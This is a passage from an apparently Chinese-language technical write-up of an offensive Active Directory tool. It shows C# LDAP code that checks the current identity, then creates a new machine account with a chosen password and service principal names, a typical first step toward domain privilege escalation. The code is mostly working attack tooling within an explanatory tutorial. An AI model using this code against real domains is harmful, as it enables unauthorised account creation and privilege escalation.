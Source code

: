 ```c#
            ExtendedResponse extendedResponse = (ExtendedResponse)this.connection.SendRequest(extendedRequest);
            Console.Write("[*] Operating LDAP As : ");
            Console.WriteLine(Encoding.UTF8.GetString(extendedResponse.ResponseValue, 0, extendedResponse.ResponseValue.Length));
        }
        catch (DirectoryOperationException e)
        {
            Console.WriteLine(e.ToString());
        }
    }
}
```

连接建立后，会向 LDAP 发送 `LDAP_SERVER_WHO_AM_I_OID` 扩展操作，用于获取当前连接的用户帐户名。

### Add New Machine Account

与 LDAP 服务建立连接后，通过 `AddRequest` 向活动目录发送一个请求，在 `CN=Computers` 目录下创建一个新的计算机对象，同时设置它的 `DnsHostName`、`SamAccountName`、`userAccountControl`、`unicodePwd`、`objectClass` 以及 `ServicePrincipalName` 等属性。最后通过 `SearchRequest` 发送一个查询请求，获取新添加的计算机对象的 SID 并返回。

```c#
public SecurityIdentifier AddComputer(string DomainName, string DistinguishedName, string MachineAccount, string MachinePassword)
{
    SecurityIdentifier securityIdentifier = null;
    // Adds an entry to the CN=Computers directory
    AddRequest addRequest = new AddRequest(DistinguishedName, new DirectoryAttribute[] {
        new DirectoryAttribute("DnsHostName", MachineAccount + "." + DomainName),
        new DirectoryAttribute("SamAccountName", MachineAccount + "$"),
        new DirectoryAttribute("userAccountControl", "4096"),
        new DirectoryAttribute("unicodePwd", Encoding.Unicode.GetBytes("\"" + MachinePassword + "\"")),
        new DirectoryAttribute("objectClass", "Computer"),
        new DirectoryAttribute("ServicePrincipalName", "HOST/" + MachineAccount + "." + DomainName, "RestrictedKrbHost/" + MachineAccount + "." + DomainName, "HOST/" + MachineAccount, "RestrictedKrbHost/" + MachineAccount)
    });

    try
    {
        this.connection.SendRequest(addRequest);
        Console.WriteLine($"[*] Machine account {MachineAccount}$ added.");
    }
    catch (Exception ex)
    {
        Console.WriteLine("[-] The new machine could not be created! User may have reached ms-DS-MachineAccountQuota limit.");
    }

    // Get SID of the new computer object
    SearchResultEntryCollection Entries = GetSearchResultEntries(DistinguishedName, "(&amp;(samAccountType=805306369)(|(name=" + MachineAccount + ")))", System.DirectoryServices.Protocols.SearchScope.Subtree, null);
    foreach (SearchResultEntry entry in Entries)
    {
        try
        {
            securityIdentifier = new SecurityIdentifier(entry.Attributes["objectSid"][0] as byte[], 0);
            Console.WriteLine($"[*] Sid of the new machine account: {securityIdentifier.Value}.");
        }
        catch
```